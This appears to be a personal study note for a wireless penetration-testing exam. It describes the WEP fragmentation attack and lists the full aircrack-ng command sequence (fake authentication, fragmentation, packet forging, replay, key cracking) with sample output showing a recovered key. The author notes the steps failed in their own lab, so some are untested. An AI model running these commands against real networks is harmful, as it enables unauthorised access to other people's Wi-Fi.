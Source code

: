 # Fragmentation (Clientless) (WEP)

This attack, when successful, can obtain 1500 bytes of PRGA (pseudo random generation algorithm). This attack does not recover the WEP key itself, but merely obtains the PRGA. The PRGA can then be used to generate packets with packetforge-ng which are in turn used for various injection attacks. It requires at least one data packet to be received from the access point in order to initiate the attack.

Basically, the program obtains a small amount of keying material from the packet then attempts to send ARP and/or LLC packets with known content to the access point (AP). If the packet is successfully echoed back by the AP then a larger amount of keying information can be obtained from the returned packet. This cycle is repeated several times until 1500 bytes of PRGA are obtained or sometimes less then 1500 bytes.

## Commands

***NOTE: Fragmentation attack does not appear to be supported in my lab. Even injection testing fails between two adapters. These steps assume that it works just in case the exam asks for it.***

* Run [setup](../../setup.md) first
* Two terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --fragment -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# If successful - look for 'Got RELAYED packet!!' message
# Look for a fragment-*.xor file
# I could not get this far :(

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y fragment-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  00:9F:A9:24:B9:28  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation)
